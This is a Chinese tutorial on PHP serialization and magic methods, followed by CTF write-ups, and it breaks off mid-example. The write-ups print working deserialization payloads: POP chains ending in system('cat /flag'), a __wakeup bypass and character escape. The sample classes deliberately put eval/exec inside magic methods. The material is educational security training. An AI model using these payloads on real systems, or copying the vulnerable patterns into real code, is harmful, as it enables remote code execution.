



# PHP 序列化及反序列化基础

### 介绍

标题有说道，这两种数据处理方式， 序列化 和 反序列化。  

- **序列化** 是将 PHP 对象转换为字符串的过程，可以使用 `serialize()` 函数来实现。该函数将对象的状态以及它的类名和属性值编码为一个字符串。序列化后的字符串可以存储在文件中，存储在数据库中，或者通过网络传输到其他地方。
- **反序列化** 是将序列化后的字符串转换回 PHP 对象的过程，可以使用 `unserialize()` 函数来实现。该函数会将序列化的字符串解码，并将其转换回原始的 PHP 对象。
- 序列化的目的是方便数据的存储，在PHP中，他们常被用到缓存、session、cookie等地方。

下面我们从数组的反序列化开始 一步一步讲解。

### 数组的反序列化

```php  
<?php
$username = array("tan","ji");

$username = serialize($username);

echo ($username. "\n");

print_r(unserialize($username));

var_dump(unserialize($username));
```

上面对数组的反序列化会输出：

```php
a:2:{i:0;s:3:"tan";i:1;s:2:"ji";} ----- echo ($username. "\n");
Array  -------------------------------- print_r(unserialize($username));
(
    [0] => tan
    [1] => ji
)
array(2) { ---------------------------- var_dump(unserialize($username));
  [0]=>
  string(3) "tan"
  [1]=>
  string(2) "ji"
}
```

在上面反序列化中的字符中，每个部分代表不同的属性：



以此类推ww

### **普通对象的反序列化**

我们先看一个简单的对象示例：

```php
<?php
class User {
public $name;

public function __construct($name) {
        $this->name = $name;
    }
}
```

该对象允许使用下面的语法创建：

```php
$user = new User("Probius_Official");
```

下面我们对其进行序列化，并且输出出来：

```php
$serializedData = serialize($user);
echo $serializedData . "\n";
```

可以得到下面的输出：

```
O:4:"User":1:{s:4:"name";s:16:"Probius_Official";}
```


此时我们如果采用数组为姓名变量：

```php
$user = new User(array("Probius","Official"));
```

则再次运行，输出就变成了：

```
O:4:"User":1:{s:4:"name";a:2:{i:0;s:7:"Probius";i:1;s:8:"Official";}}
```


其实拆分开来没那么难理解。

然后我们针对上面的代码，添加点类中的其他属性，如：`保护变量` `私有变量` `自定义函数`

```php
<?php
class User {
    public $name;
    protected $email;
    private $phoneNumber;
    public function __construct($name, $email,$phoneNumber) {
        $this->name = $name;
        $this->email = $email;
        $this ->phoneNumber = $phoneNumber;
    }
    public function getPhoneNumber(){
        echo $this ->phoneNumber;
    }
}
$user = new User(array("tan","ji"), 'admin@probius.xyz','19191145148');

$serializedData = serialize($user);
echo $serializedData . "\n";
$deserializedUser = unserialize($serializedData);
print_r($deserializedUser -> name);
echo $deserializedUser -> getPhoneNumber();
?>
```

其输出为：  

```php title="Serialized Data"
O:4:"User":3:{s:4:"name";a:2:{i:0;s:3:"tan";i:1;s:2:"ji";}s:8:" * email";s:17:"admin@probius.xyz";s:17:" User phoneNumber";s:11:"19191145148";}
Array
(
    [0] => tan
    [1] => ji
)
19191145148
```

为了方便理解，我们这样拆分一下：

```
O:4:"User":3:{s:4:"name";a:2:{i:0;s:3:"tan";i:1;s:2:"ji";}---- public $name;

s:8:" * email";s:17:"admin@probius.xyz";---------------------- protected $email;

s:17:" User phoneNumber";s:11:"19191145148";}----------------- private $phoneNumber;
```

观察不同类型变量名的字符长度标识，你会发现长度和你看到的好像有些不一样，那是因为在 `protected` 和 `private`类型的变量中都加入了不可见字符：

如果是 `protected` 变量，则会在变量名前加上`\x00*\x00`

如果是 `private` 变量，则会在变量名前加上`\x00类名`

或许下面控制台的输出比起上面不可见字符变成了类似"` `"空格的字符更直观（虽然也直观不到哪里去。



所以一般我们在输出的时候都会先编码后输出，以免遇到保护和私有类序列化后不可见字符丢失的问题。

```php
O:4:"User":3:{s:4:"name";a:2:{i:0;s:3:"tan";i:1;s:2:"ji";}---------- public $name;

s:8:"\x00*\x00email";s:17:"admin@probius.xyz";---------------------- protected $email;

s:17:"\x00User\x00phoneNumber";s:11:"19191145148";}----------------- private $phoneNumber;
```

`echo  urlencode($serializedData)` :


```php linenums="1"
 O%3A4%3A%22User%22%3A3%3A%7Bs%3A4%3A%22name%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A3%3A%22tan%22%3Bi%3A1%3Bs%3A2%3A%22ji%22%3B%7D-------------------------------------------------------------- public $name;
 
 s%3A8%3A%22%00%2A%00email%22%3Bs%3A17%3A%22admin%40probius.xyz%22%3B------- protected $email;
 
 s%3A17%3A%22%00User%00phoneNumber%22%3Bs%3A11%3A%2219191145148%22%3B%7D---- private $phoneNumber;
```

### **自定义类的反序列化**

如果我们把上面的类改成这样：

```php
<?php
class User implements Serializable {
    public $name;
    protected $email;
    private $phoneNumber;

    public function __construct($name, $email, $phoneNumber) {
        $this->name = $name;
        $this->email = $email;
        $this->phoneNumber = $phoneNumber;
    }

    public function serialize() {
        return serialize([
            'name' => $this->name,
            'email' => $this->email,
            'phoneNumber' => $this->phoneNumber,
        ]);
    }

    public function unserialize($serialized) {
        $data = unserialize($serialized);
        $this->name = $data['name'];
        $this->email = $data['email'];
        $this->phoneNumber = $data['phoneNumber'];
    }

    public function getPhoneNumber() {
        echo $this->phoneNumber;
    }

    public function getEmail() {
        return $this->email;
    }
}

$user = new User(array("tan","ji"), 'admin@probius.xyz', '19191145148');

$serializedData = serialize($user);

echo $serializedData . "\n";

$deserializedUser = unserialize($serializedData);

print_r($deserializedUser->name);

echo $deserializedUser->getPhoneNumber() . "\n";

echo $deserializedUser->getemail() . "\n";


```

在User类中，通过 `class User implements Serializable` 中的 `Serializable` 接口，我们可以定义`serialize()` 和 `unserialize()` 两个方法，实现控制类实例在序列化和反序列化过程中的行为。

这两个方法分别负责将类实例的属性序列化为字符串和从字符串中还原属性。

当我们使用全局的 `serialize()` 和 `unserialize()` 函数时，这些方法会自动调用，从而让我们更好地控制序列化和反序列化过程。这也是该类型的类叫做 "CustomObject"的原因。

当我们运行上面的程序时，控制台输出如下：

```php
C:4:"User":125:{a:3:{s:4:"name";a:2:{i:0;s:3:"tan";i:1;s:2:"ji";}s:5:"email";s:17:"admin@probius.xyz";s:11:"phoneNumber";s:11:"19191145148";}} ---------------------------------------------------- echo $serializedData . "\n";
Array ------------------------------------------------ print_r($deserializedUser->name);
(
    [0] => tan
    [1] => ji
)
19191145148 ------------------------------------------ echo $deserializedUser->getPhoneNumber() . "\n";
admin@probius.xyz ------------------------------------ echo $deserializedUser->getemail() . "\n";
```


其格式大致为：`C:<className length>:"<class name>":<data length>:{<data>}`

为了方便理解，我们这样同样拆分一下：



### 其他标识

除了上面常见的几个序列化字母标识外，还有其他标识,这里我们一起总结一下:

- a:array 数组

  ```php
  echo serialize(array(1,2)); --- a:2:{i:0;i:1;i:1;i:2;}
  ```

- b:boolean bool值

  ```php
  echo serialize(true);  ---- b:1;
  echo serialize(false); ---- b:0;
  ```

- C:custom object 自定义对象序列化

  使用 Serializable 接口定义了序列化和反序列化方法的类

  ```php
  class yourClassName implements Serializable
  ```

- d:double 小数

  ```php
  echo serialize(1.1); ---- d:1.1;
  ```

- i:integer 整数

  ```php
  echo serialize(114); ---- i:114;
  ```

- o:commonObject 对象

  ```
  似乎在php4的时候就弃用了
  ```

- O:Object 对象

  ```php
  class a{}
  echo serialize(new a());
  ------ O:1:"a":0:{}
  ```

- r:reference 对象引用 && R:pointer reference 指针引用

  ```php
  <?php
  class A{
  
  }
  class B{
      public $ClassA;
      public $refer;
      public $pointer;
      public function __construct(){
          $this->ClassA = new A();
          $this->refer = $this->ClassA;
          $this->pointer = &$this->ClassA;
      }
  }
  $a = new B();
  echo serialize($a);
  ```

  控制台输出：

  ```php
  O:1:"B":3:
  {
      s:6:"ClassA";O:1:"A":0:{}
      s:5:"refer";r:2;
      s:7:"pointer";R:2;
  }
  ```

  

  此外，引用对象的属性值取决于声明顺序。

  ```php
  <?php
  class A{
  
  }
  class C{
  
  }
  class B{
      public $ClassA;
      public $ClassC;
      public $pointer_1;
      public $pointer_2;
  
      public $refer;
  
      public function __construct(){
          $this->ClassA = new A();
          $this->ClassC = new C();
          $this->refer = $this->ClassA;
          $this->pointer_1 = &$this->ClassA;
          $this->pointer_2 = &$this->ClassC;
  
      }
  }
  $a = new B();
  echo serialize($a);
  // ----------------------- 当改变ClassA / C 的声明顺序的时候输出如下:
  // O:1:"B":5:{s:6:"ClassC";O:1:"C":0:{}s:6:"ClassA";O:1:"A":0:{}s:9:"pointer_1";R:3;s:9:"pointer_2";R:2;s:5:"refer";r:3;}
  // O:1:"B":5:{s:6:"ClassA";O:1:"A":0:{}s:6:"ClassC";O:1:"C":0:{}s:9:"pointer_1";R:2;s:9:"pointer_2";R:3;s:5:"refer";r:2;}
  ```

  

- s:string 字符串

  ```php
  class a{}
  echo serialize(new a());
  ------ O:1:"a":0:{}
  ```

- S:encoded string

  ```php
  S:1:"\61"; --- 可以将16进制编码成字符，可以进行绕过特定字符
  ```

- N:null NULL值

  ```php
  echo serialize(NULL); --- N;
  ```

### 魔术方法

在 PHP 的序列化中，魔术方法（Magic Methods）是一组特殊的方法，这些方法以双下划线（`__`）作为前缀，可以在特定的序列化阶段触发从而使开发者能够进一步的控制 序列化 / 反序列化 的过程。

你可以在PHP官方文档中查找到对应魔术方法的定义和使用方法：[PHP: 魔术方法 - Manual](https://www.php.net/manual/zh/language.oop5.magic.php)

一般在题目中常见的几个方法如下：

```php
 __wakeup() //------ 执行unserialize()时，先会调用这个函数
 __sleep() //------- 执行serialize()时，先会调用这个函数
 __destruct() //---- 对象被销毁时触发
 __call() //-------- 在对象上下文中调用不可访问的方法时触发
 __callStatic() //-- 在静态上下文中调用不可访问的方法时触发
 __get() //--------- 用于从不可访问的属性读取数据或者不存在这个键都会调用此法
 __set() //--------- 用于将数据写入不可访问的属性
 __isset() //------- 在不可访问的属性上调用isset()或empty()触发
 __unset() //------- 在不可访问的属性上使用unset()时触发
 __toString() //---- 把类当作字符串使用时触发
 __invoke() //------ 当尝试将对象调用为函数时触发
```

一份比较全面的表格：

| magicMethods | attribute                                                    |
| ------------ | :----------------------------------------------------------- |
| __construct  | 当一个对象被创建时自动调用这个方法，可以用来初始化对象的属性。 |
| __destruct   | 当一个对象被销毁时自动调用这个方法，可以用来释放对象占用的资源。 |
| __call       | 在对象中调用一个不存在的方法时自动调用这个方法，可以用来实现动态方法调用。 |
| __callStatic | 在静态上下文中调用一个不存在的方法时自动调用这个方法，可以用来实现动态静态方法调用。 |
| __get        | 当一个对象的属性被读取时自动调用这个方法，可以用来实现属性的访问控制。 |
| __set        | 当一个对象的属性被设置时自动调用这个方法，可以用来实现属性的访问控制。 |
| __isset      | 当使用 isset() 或 empty() 测试一个对象的属性时自动调用这个方法，可以用来实现属性的访问控制。 |
| __unset      | 当使用 unset() 删除一个对象的属性时自动调用这个方法，可以用来实现属性的访问控制。 |
| __toString   | 当一个对象被转换为字符串时自动调用这个方法，可以用来实现对象的字符串表示。 |
| __invoke     | 当一个对象被作为函数调用时自动调用这个方法，可以用来实现对象的可调用性。 |
| __set_state  | 当使用 var_export() 导出一个对象时自动调用这个方法，可以用来实现对象的序列化和反序列化。 |
| __clone      | 当一个对象被克隆时自动调用这个方法，可以用来实现对象的克隆。 |
| __debugInfo  | 当使用 var_dump() 或 print_r() 输出一个对象时自动调用这个方法，可以用来控制对象的调试信息输出。 |
| __sleep      | 在对象被序列化之前自动调用这个方法，可以用来控制哪些属性被序列化。 |
| __wakeup     | 在对象被反序列化之后自动调用这个方法，可以用来重新初始化对象的属性。 |

PHP官方文档已经很详细了，这里不在赘述，不一定需要学会所有的函数，除开常见的，其他的在遇到的时候查阅即可。

### 对魔术方法的一些补充

探老师写的反序列化方法已经很详细了，这里简单对一些方法进行补充。

#### __wakeup()

> 当使用unserialize时被调用，可用于做些对象的初始化操作（unserialize触发）

继续修改上面的代码，我们添加一个 `__wakeup()` 方法

```php
public function __wakeup(){
//  实际开发别这样写
    exec($this->oneFive);
}
```

如果我们没有对 `__construct `中的 `$oneFive` 变量做过滤的话，`unserialize`在执行完后时会自动调用`__wakeup()`的，所以`__wakeup()`一般在赛场上做过滤（可以绕过），实际开发应该用于对象反序列化后对其状态进行恢复


接下来我们在`__wakeup()`里加入一些过滤方法，来看看怎么利用`__wakeup()`函数失效（[CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124)）来绕过这个函数

```php
class DingZhen
{
    public $oneFive;

    public function __construct($oneFive)
    {
        $this->oneFive = $oneFive;
    }

    public function __destruct()
    {
        echo exec($this->oneFive) . ": I got smoke.";
    }

    public function __wakeup(){
    //  实际开发别这样写
        if (preg_match("/\b(exec|system)\b/i", "", $this->oneFive)){
            echo $this->oneFive;
        }
    }
}
```

将序列化后的数据的参数数量+1即可


加了一后，正常运行


#### __sleep()

> serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。（serialize）
>
> 注意：__sleep()只能返回数组

```php
<?php

class Example {
    public function __sleep() {
        return ['data'];
    }
}

$a = new Example();
$a->data = 'flag';
$b = serialize($a);
echo $b;
```

很好理解

#### __destruct()

> __destruct 函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行

```php
<?php

class DingZhen
{
    public $oneFive;

    public function __construct($oneFive)
    {
        $this->oneFive = $oneFive;
    }
    public function session1(){
        echo "1\n";
    }
    public function __destruct()
    {
        echo "Done!";
    }
}

$a = new DingZhen("ls");
$a->session1();
```

很好理解


#### __toString()

> 方法用于一个类被当成字符串时应怎样回应。例如 `echo $obj;` 应该显示些什么。

很好理解

```php
<?php
class Example {
    public $data;
    public function __construct($data){
        $this->data = data;
    }
    public function __toString() {
        return eval($this->data);
    }
}

$a = 'O:7:"Example":1:{s:4:"data";s:10:"phpinfo();";}';
$b = unserialize($a);
$c = $b;        // 注意这里
echo $c;        // 注意这里
```


#### __invoke()

> 当尝试以调用函数的方式调用一个对象时，[__invoke()](https://www.php.net/manual/zh/language.oop5.magic.php#object.invoke) 方法会被自动调用。

```php
<?php

class Example {
    public $data;
    public function __construct($data){
        $this->data = data;
    }
    public function __invoke(){
        eval($this->data);
    }
}
$a =  'O:7:"Example":1:{s:4:"data";s:10:"phpinfo();";}';
$b = unserialize($a);
$b();
```

非常好理解👍


#### __construct()

> PHP 允许开发者在一个类中定义一个方法作为**构造函数**（__construct）。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作

```php
<?php

class Example{
    private $a;
    private $b;
    private $c;
    public function __construct($a, $b, $c)
    {
        $this->a = $a;
        $this->b = $b;
        $this->c = $c;
    }
    public function getAll(){
        return "A: " . $this->a . "\n" .
            "B: " . $this->b . "\n" .
            "C: " . $this->c . "\n";
    }
}
$a = new Example("我是", "理塘", "丁真");
echo $a->getAll();
```

很好理解，他将输出

```
A: 我是
B: 理塘
C: 丁真
```

#### __destruct()

> PHP 有**析构函数**（__destruct）的概念，这类似于其它面向对象的语言，如 C++。**析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。**

```php
<?php

class Example{
    private $a;
    private $b;
    private $c;
    public function __construct($a, $b, $c)
    {
        $this->a = $a;
        $this->b = $b;
        $this->c = $c;
    }
    public function getAll(){
        return "A: " . $this->a . "\n" .
            "B: " . $this->b . "\n" .
            "C: " . $this->c . "\n";
    }
    public function __destruct(){
        $this->a = "一";
        $this->b = "五";
        $this->c = "！";
        echo "A: " . $this->a . "\n" .
            "B: " . $this->b . "\n" .
            "C: " . $this->c . "\n";
    }
}
$a = new Example("我是", "理塘", "丁真");
echo $a->getAll();
```

很好理解，这将输出

```
A: 我是
B: 理塘
C: 丁真
A: 一
B: 五
C: ！
```

#### __call()和__callStatic()

> 在对象中调用一个不可访问方法时，[__call()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.call) 会被调用。
>
> 在静态上下文中调用一个不可访问方法时，[__callStatic()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.callstatic) 会被调用。

很好理解

```php
<?php
class Example{
    public function __call($name, $arguments)
    {
        // 注意: $name 的值区分大小写
        echo "Calling object method '$name' "
            . implode(', ', $arguments). "\n";
    }

    public static function __callStatic($name, $arguments)
    {
        // 注意: $name 的值区分大小写
        echo "Calling static method '$name' "
            . implode(', ', $arguments). "\n";
    }
}
$obj = new Example();
$obj->fuck('me');
Example::mother('fuck');
```

非常好理解，爱来自我❤

#### 属性重载

- 在给不可访问（protected 或 private）或不存在的属性赋值时，[__set()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.set) 会被调用。
- 读取不可访问（protected 或 private）或不存在的属性的值时，[__get()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.get) 会被调用。
- 当对不可访问（protected 或 private）或不存在的属性调用 [isset()](https://www.php.net/manual/zh/function.isset.php) 或 [empty()](https://www.php.net/manual/zh/function.empty.php) 时，[__isset()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.isset) 会被调用。
- 当对不可访问（protected 或 private）或不存在的属性调用 [unset()](https://www.php.net/manual/zh/function.unset.php) 时，[__unset()](https://www.php.net/manual/zh/language.oop5.overloading.php#object.unset) 会被调用。

这一块没什么好说的，但在POP链反序列化里会比较常见，建议自己到官网看看。

[PHP: 重载 - Manual](https://www.php.net/manual/zh/language.oop5.overloading.php#object.set)

## 实战

<!-- Imported from D:\\Book\\Web\\Chapter12\12-1.md -->
### PHP 字符串序列化


打开网页登录界面，题目说登录不进去，尝试找找其他线索


在 CSS 文件中找到注释


URL 跟上参数拿到源码

我们在 Cookie 的 BUGKU 参数中传入序列化后的值


找个在线生成的网站即可


BurpSuite 拦截抓包修改拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter12\12-10.md -->
### PHP 反序列化之 __toString() 魔术方法


打开网页给出源码


```php
class GIT {
    public $username;
    public $password;
    // 初始化用户名为 'guest'，密码为 'Welcome to GITCTF!'
    public function __construct(){
        $this->username = 'guest';
        $this->password = 'Welcome to GITCTF!';
    }
    // 如果用户名为 'ZeroZone'，则输出密码；否则输出提示信息
    public function __destruct(){
        if($this->username == 'ZeroZone'){
            echo $this->password;
        }
        else{
            echo 'ZeroZone Lab new bee !';
        }
    }
}
```

```php
class ZeroZone {
    public $code;
    // 当对象被当作字符串使用时自动调用
    public function __toString(){
        if(isset($this->code)){
            eval($this->code);
            return '';
        }
        else{
            echo "代码呢？";
            return '';
        }
    }
}
```

```php
// 创建一个新的 GIT 类实例
$data = new GIT();
if(isset($_POST['data'])){
    $data = unserialize($_POST['data']);
}
```

让 `$data->username == 'ZeroZone'`，并让 `$data->password`

由于 `__destruct()` 会输出 `$data->password`，如果能让 `$data->password` 为一个 `ZeroZone` 对象，并且触发 `__toString()`，就可以执行任意代码

```php
<?php
class GIT {
    public $username;
    public $password;
}

class ZeroZone {
    public $code;
}

// 构造恶意对象链
$zero = new ZeroZone();
$zero->code = "system('cat /flag');";

$git = new GIT();
// 触发密码输出条件
$git->username = 'ZeroZone';
// 触发__toString() 方法
$git->password = $zero;

// 生成payload
echo serialize($git);
?>
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-11.md -->
### PHP & 引用相同内存


打开靶场给出源码

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

md5 绕过很简单，科学计数法及数组绕过都可以

这才来到最关键的地方，如何在序列化前让 `$this->correct === $this->input`  呢？

我们创建 BUU 类后，重新给 $this->correct 赋值成 $this->input 的值

在 PHP 中，`&` 表示**引用赋值**，效果是：

 两个变量或者属性同时指向同一块内存，**任何一方变化，另一方立刻同步变化**

```php
<?php
class BUU {
   public $correct;
   public $input;
}

$fun = new BUU();
// 让 $b1->correct 和 $b1->input 两个属性引用同一块内存地址，即：它们两个绑定为同一个变量
$fun->input = &$fun->correct;
$res = serialize(@$fun);
echo $res;
?>
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-2.md -->
### PHP POP 链


```
__call() 魔术方法：当调用对象不存在的方法时，会触发该方法

__wakeup() 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__invoke() 魔术方法：允许对象作为函数被调用

__set() 魔术方法：当给不可访问的属性赋值时会触发

__get() 魔术方法：当访问不可访问的属性时会触发 __destruct

__construct() 构造函数：在对象被实例化后立即执行

__destruct() 魔术方法：当对象生命周期结束时自动触发

__toString() 魔术方法：当对象被当作字符串使用时自动调用
```

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __call($name, $arguments)
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        die("Wishes can be fulfilled");
    }
}

class Nevv{
    private $happiness;

    public function __invoke()
    {
        return $this->happiness->check();
    }

}

class Rabbit{
    private $aspiration;
    
    public function __set($name,$val){
        return $this->aspiration->family;
    }
}

class Year{
    public $key;
    public $rabbit;

    public function __construct($key)
    {
        $this->key = $key;
    }

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }

    public function __get($name)
    {
        $name = $this->rabbit;
        $name();
    }

    public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
}

if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
}else {
    echo "过新年啊~过个吉祥年~";
}
?>
```

首先传入 Year 中的 $key="happy new year"

条件成立调用 firecrackers 方法

但 Rabbit 中 wish 不存在，所以调用 get 魔法方法

此时 $name() 对象被当成函数访问，类型实际上是 Rabbit 对象

但 invoke 方法实际上是调用了 Nevv

因为 check() 是个方法不存在，所以调用了 call 方法

$a 和 $b 是两个 Year 对象，$c 是一个 Rabbit 对象

它的构造函数接受 $b（另一个 Year 对象）作为参数

这意味着 Rabbit 对象 $c 会持有 $b 对象

$e 是一个 Happy 对象用于执行系统命令

将 Rabbit 对象 $c 赋值给 $a->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

将 Nevv 对象 $d 赋值给 $b->rabbit

Year 对象的 $rabbit 属性会被赋值为 Rabbit 对象

而 Rabbit 对象的 $aspiration 属性会被赋值为 Year 对象，依此类推

```php
<?php

class Happy
{
    private $cmd = "system";
    private $content = "cat /flag";
}

class Nevv
{
    private $happiness;

    public function __construct($happiness)
    {
        $this->happiness = $happiness;
    }
}

class Rabbit
{
    private $aspiration;

    public function __construct($aspiration)
    {
        $this->aspiration = $aspiration;
    }

    public function __set($name, $val)
    {
        return @$this->aspiration->family;
    }
}

class Year
{
    public $key = "happy new year";
    public $rabbit;
}

$result = new Year();
$year1  = new Year();
$year1->rabbit = new Nevv(new Happy());
$rabbit1 = new Rabbit($year1);
$result->rabbit = $rabbit1;
$rabbit1->aspiration = 1;

$result=serialize($result);
echo urlencode($result);
```

```php
Year::__destruct()
    └── firecrackers()
         └── Rabbit::__set("wish", "allkill QAQ")
              └── aspiration->family   (aspiration 是 Year)
                   └── Year::__get("family")
                        └── this->rabbit()  (rabbit 是 Nevv)
                             └── Nevv::__invoke()
                                  └── happiness->check() (happiness 是 Happy)
                                       └── Happy::__call("check", [])
                                            └── call_user_func($cmd, $content)

```

拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter12\12-3.md -->
### PHP 个数不等绕过__wakeup()


打开网页给出了备份提示


扫后台发现 ZIP 文件


下载下来打开 index.php 拿到源码（flag.php 是假的）


看到了反序列化，接下来去看 class.php

```
__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__destruct 析构函数：当对象销毁时调用
```

```php
<?php
include 'flag.php';
 
 
error_reporting(0);
 
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
 
    function __wakeup(){
        $this->username = 'guest';
    }
 
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
 
             
        }
    }
}
?>
```

我们需要传入 username = admin，password = 100，于是构造反序列化

```php
<?php
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
 
?>
```

还没有结束，因为类的两个属性声明为 private，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

所以要在此基础上补上 %00 的空字符

```
%00Name%00username

%00Name%00password
```

最后是绕过 __wakeup()

当反序列化中对象属性的个数和真实的个数不等时，__wakeup() 就会被绕过，所以修改使其不相等即可

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-4.md -->
### PHP 反序列化字符逃逸


打开网页拿到源码

```php
<?php
// 需要以 get 方式传入f参数
$function = @$_GET['f'];

// 对 $img（形参）进行过滤，后缀不允许出现 'php','flag','php5','php4','fl1g'
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

// unset() 销毁指定的变量。 
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

// 本题的作用是将 _SESSION 的两个函数变为 post 传参
extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

// 对$_SESSION进行一些过滤
$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

首先让参数f等于 “phpinfo”，因为题目提示说这里可能会找到些东西


很明显是要读取这个文件，代码里读取文件的地方在这里

```php
if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

**反序列化字符串逃逸的原理：**

```
在构造键值的时候某些关键字被过滤掉了，但序列化后的字符串记录的长度不会因为过滤而改变，所以就会把序列化后的字符串的结构当做值的内容给读取
```

首先康康反序列化结果长啥样

```php
<?php
$_SESSION["user"] = '*';
$_SESSION['function'] = '**';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

